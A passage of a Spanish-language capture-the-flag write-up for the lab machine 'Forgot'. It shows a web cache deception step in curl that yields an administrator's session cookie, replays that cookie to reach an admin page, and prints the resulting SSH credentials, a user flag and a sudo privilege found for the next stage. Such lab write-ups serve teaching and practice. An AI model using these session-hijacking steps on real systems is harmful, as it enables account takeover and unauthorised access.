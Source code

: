 ```bash
curl -I http://10.10.11.188/static/uarepwneed
```

Las cabeceras de respuesta son las siguientes:

![imagen 35](Pasted image 20230301220746.png)

Vemos una *cookie* diferente a la de nuestro usuario. El administrador accedió a *http://10.10.11.188/static/uarepwneed* hace 160 segundos. El *web cache* ha determinado que nuestra solicitud y la del administrador son equivalentes y nos ha proporcionado la **respuesta que cacheó el administrador**. La *cookie* de sesión del administrador es la siguiente:

```bash
Set-Cookie: session=80a4d8f7-4b2b-46aa-99d0-d034da7c0eea; HttpOnly; Path=/
```

Recordemos que, como el usuario *robert-dev-14529*, no teníamos acceso a */admin_tickets*. Vamos a utilizar la *cookie* anterior para acceder:

```bash
curl -H "cookie: session=80a4d8f7-4b2b-46aa-99d0-d034da7c0eea" http://10.10.11.188/admin_tickets -s | html2text
```

* `html2text` lo he utilizado para interpretar el *html*.

La respuesta del servidor es la siguiente:

![imagen 36](Pasted image 20230301221048.png)

Nos comparten las **credenciales SSH** del usuario *diego*: `diego:dCb#1!x0%gjq`. 

Finalmente, nos conectamos por *SSH*:

![imagen 37](Pasted image 20230301003657.png)

### user.txt

Podemos encontrar la primera *flag* en el *homedir* del usuario *diego*:

```bash
diego@forgot:~$ cat user.txt 
56c0aead00efbebc78eb72982e084f40
```

## Consiguiendo shell como root

### Reconocimiento del sistema

#### sudoers

El usuario *diego* tiene asignado el siguiente privilegio a nivel de *sudoers*:

![imagen 38](Pasted image 20230301003850.png)

Puede ejecutar como *root*, sin proporcionar contraseña, */opt/security/ml_secrutiy.py*.
